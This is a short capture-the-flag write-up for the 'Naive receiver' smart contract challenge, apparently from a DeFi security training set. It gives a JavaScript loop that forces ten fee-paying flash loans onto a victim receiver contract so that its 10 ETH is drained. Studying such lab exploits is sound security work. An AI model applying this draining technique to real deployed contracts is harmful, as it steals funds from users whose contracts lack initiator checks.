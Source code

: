 # Challenge #2 - Naive receiver

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

# Solution

```
for (let i = 0; i < 10; i++) {
    this.pool.flashLoan(this.receiver.address, 0)
}
```
